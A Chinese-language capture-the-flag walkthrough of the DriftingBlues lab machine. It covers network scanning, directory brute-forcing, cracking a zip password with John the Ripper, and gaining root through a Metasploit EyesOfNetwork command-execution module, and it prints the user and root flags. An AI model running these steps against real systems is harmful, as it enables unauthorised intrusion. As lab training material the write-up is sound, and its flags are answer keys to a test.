





# 信息搜集
主机发现

```bash
┌──(root㉿kali)-[~]
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:f7:03:e6, IPv4: 192.168.21.13
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.21.1    cc:e0:da:eb:34:a2       Baidu Online Network Technology (Beijing) Co., Ltd
192.168.21.2    04:6c:59:bd:33:50       Intel Corporate
192.168.21.4    c2:ab:39:9e:98:94       (Unknown: locally administered)
192.168.21.10   08:00:27:40:f4:4c       PCS Systemtechnik GmbH
192.168.21.11   92:87:65:03:f9:bb       (Unknown: locally administered)

5 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.943 seconds (131.76 hosts/sec). 5 responded
```
端口扫描

```bash
┌──(root㉿kali)-[~]
└─# nmap --min-rate 10000 -p- 192.168.21.10
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-12 02:39 EDT
Nmap scan report for 192.168.21.10 (192.168.21.10)
Host is up (0.00037s latency).
Not shown: 65527 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
66/tcp   open  sqlnet
80/tcp   open  http
111/tcp  open  rpcbind
443/tcp  open  https
2403/tcp open  taskmaster2000
3306/tcp open  mysql
8086/tcp open  d-s-n
MAC Address: 08:00:27:40:F4:4C (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.86 seconds
                                                                
┌──(root㉿kali)-[~]
└─# nmap -sU --min-rate 10000 -p- 192.168.21.10
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-12 02:39 EDT
Warning: 192.168.21.10 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.21.10 (192.168.21.10)
Host is up (0.0011s latency).
Not shown: 65455 open|filtered udp ports (no-response), 78 closed udp ports (port-unreach)
PORT    STATE SERVICE
111/udp open  rpcbind
161/udp open  snmp
MAC Address: 08:00:27:40:F4:4C (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 72.87 seconds
                                                                
┌──(root㉿kali)-[~]
└─# nmap -sT -sV -O -p22,66,80,111,443,2403,3306,8086 192.168.21.10
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-12 02:42 EDT
Nmap scan report for 192.168.21.10 (192.168.21.10)
Host is up (0.00031s latency).

PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 7.4 (protocol 2.0)
66/tcp   open  http            SimpleHTTPServer 0.6 (Python 2.7.5)
80/tcp   open  http            Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16 mod_perl/2.0.11 Perl/v5.16.3)
111/tcp  open  rpcbind         2-4 (RPC #100000)
443/tcp  open  ssl/http        Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16 mod_perl/2.0.11 Perl/v5.16.3)
2403/tcp open  taskmaster2000?
3306/tcp open  mysql           MariaDB (unauthorized)
8086/tcp open  http            InfluxDB http admin 1.7.9
MAC Address: 08:00:27:40:F4:4C (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 126.39 seconds
                                                                
┌──(root㉿kali)-[~]
└─# nmap -sU -sV -O -p111,161 192.168.21.10
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-12 02:45 EDT
Nmap scan report for 192.168.21.10 (192.168.21.10)
Host is up (0.00027s latency).

PORT    STATE SERVICE VERSION
111/udp open  rpcbind 2-4 (RPC #100000)
161/udp open  snmp    net-snmp; net-snmp SNMPv3 server
MAC Address: 08:00:27:40:F4:4C (Oracle VirtualBox virtual NIC)
Too many fingerprints match this host to give specific OS details
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.87 seconds
```
# 漏洞利用
80端口打开就是登录页面


目录扫描报错了

```bash
┌──(root㉿kali)-[~]
└─# gobuster dir -u http://192.168.21.10 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.10
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================

Error: the server returns a status code that matches the provided options for non existing urls. http://192.168.21.10/a5a45188-92b9-4794-9363-8a307d39864a => 302 (Length: 242). To continue please exclude the status code or the length
```


看一下66端口


目录扫描一下

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.21.10:66 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.10:66
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index_files          (Status: 301) [Size: 0] [--> /index_files/]                                                               
/eon                  (Status: 200) [Size: 248]
===============================================================
Finished
===============================================================
```
/eon下载了一个文件



解密一下



找网站转一下


需要密码

```bash
┌──(kali㉿kali)-[~]
└─$ unzip 915cd0a1-645d-4031-b941-7c954facbede.zip 
Archive:  915cd0a1-645d-4031-b941-7c954facbede.zip
[915cd0a1-645d-4031-b941-7c954facbede.zip] creds.txt password: 
   skipping: creds.txt               incorrect password
```
爆破出来了

```bash
┌──(kali㉿kali)-[~]
└─$ zip2john 915cd0a1-645d-4031-b941-7c954facbede.zip > 1.txt
ver 2.0 915cd0a1-645d-4031-b941-7c954facbede.zip/creds.txt PKZIP Encr: cmplen=31, decmplen=19, crc=D65B49F1 ts=9F03 cs=d65b type=0
                                                                
┌──(kali㉿kali)-[~]
└─$ john 1.txt                                             
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
killah           (915cd0a1-645d-4031-b941-7c954facbede.zip/creds.txt)     
1g 0:00:00:02 DONE 3/3 (2025-03-12 03:44) 0.3906g/s 3760Kp/s 3760Kc/s 3760KC/s kabtw5..kill3n
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
查看内容，得到了一个账号密码



登陆进80端口





寻找可利用漏洞

```bash
msf6 > search eyesofnetwork

Matching Modules
================

   #  Name                                                Disclosure Date  Rank       Check  Description
   -  ----                                                ---------------  ----       -----  -----------
   0  exploit/linux/http/eyesofnetwork_autodiscovery_rce  2020-02-06       excellent  Yes    EyesOfNetwork 5.1-5.3 AutoDiscovery Target Command Execution
   1    \_ target: Linux (x86)                            .                .          .      .
   2    \_ target: Linux (x64)                            .                .          .      .
   3    \_ target: Linux (cmd)                            .                .          .      .


Interact with a module by name or index. For example info 3, use 3 or use exploit/linux/http/eyesofnetwork_autodiscovery_rce    
After interacting with a module you can manually set a TARGET with set TARGET 'Linux (cmd)'
```
# 提权
成功拿到root
```bash
meterpreter > shell
Process 25320 created.
Channel 1 created.
python -c "import pty;pty.spawn('/bin/bash')"
[root@driftingblues autodiscovery]# id
id
uid=0(root) gid=0(root) groups=0(root)
```
user.txt，root.txt

```bash
[root@driftingblues autodiscovery]# cd ~ 
cd ~
[root@driftingblues ~]# ls -la
ls -la
total 80
dr-xr-x---.  4 root root  4096 Mar 12 04:02 .
dr-xr-xr-x. 19 root root  4096 Apr  3  2021 ..
-rw-------.  1 root root   774 Apr  3  2021 .bash_history
-rw-r--r--.  1 root root    18 Dec 28  2013 .bash_logout
-rw-r--r--.  1 root root   176 Dec 28  2013 .bash_profile
-rw-r--r--.  1 root root   176 Dec 28  2013 .bashrc
-rw-r--r--.  1 root root   100 Dec 28  2013 .cshrc
drwxr-----.  3 root root  4096 Apr  3  2021 .pki
-rw-r--r--.  1 root root   129 Dec 28  2013 .tcshrc
-rw-------.  1 root root  1401 Apr  3  2021 anaconda-ks.cfg
-rwxr-xr-x.  1 root root   248 Apr  3  2021 eon
-rw-r--r--   1 root root 17477 Apr  7  2021 index.htm
drwxr-xr-x.  2 root root  4096 Apr  3  2021 index_files
-rw-r--r--   1 root root    32 Apr  7  2021 root.txt
-rwxr-xr-x.  1 root root    52 Apr  3  2021 upit.sh
-rw-r--r--   1 root root    32 Apr  7  2021 user.txt
[root@driftingblues ~]# cat user.txt
cat user.txt
AED508ABE3D1D1303E1C1BC5F1C1BA2B
[root@driftingblues ~]# cat root.txt
cat root.txt
BD221F968ACB7E069FC7DDE713995C77
```